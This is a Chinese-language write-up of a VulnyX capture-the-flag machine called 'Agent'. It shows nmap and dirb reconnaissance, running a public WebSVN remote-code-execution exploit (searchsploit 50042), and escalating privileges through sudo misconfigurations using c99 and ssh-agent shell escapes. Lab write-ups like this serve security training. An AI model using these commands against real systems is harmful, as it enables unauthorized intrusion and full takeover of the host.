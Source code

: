 # 环境

来自[Agent](https://vulnyx.com/#Agent)

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240723121044383](image/image-20240723121044383.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.34
```

![image-20240723122516718](image/image-20240723122516718.png)

## 目录扫描

```bash
dirb http://192.168.88.34
```

![image-20240723172750561](image/image-20240723172750561.png)

访问80，是一个Nginx是测试页面

```bash
whatweb http://192.168.88.34/websvn
```

![image-20240723172840390](image/image-20240723172840390.png)

# web渗透

## 利用已知漏洞

```
searchsploit websvn
searchsploit -m 50042
```

![image-20240723173030461](image/image-20240723173030461.png)

有一个远程代码执行，下载漏洞脚本，查看和编辑

![image-20240723173718000](image/image-20240723173718000.png)

```bash
python 50042.py http://192.168.88.34/websvn
```

![image-20240723173820609](image/image-20240723173820609.png)

## 提取

sudo看一下有什么权限

![image-20240723174715113](image/image-20240723174715113.png)

可以看到dustin免密执行[c99](https://gtfobins.github.io/gtfobins/c99/)提权

```bash
sudo -u dustin /usr/bin/c99 -wrapper /bin/sh,-s .
```

![image-20240723174820584](image/image-20240723174820584.png)

拿下dustin用户，再看一下sudo

![image-20240723174909941](image/image-20240723174909941.png)

[ssh-agent](https://gtfobins.github.io/gtfobins/ssh-agent/)提权

```bash
sudo /usr/bin/ssh-agent /bin/bash
```

![image-20240723175121341](image/image-20240723175121341.png)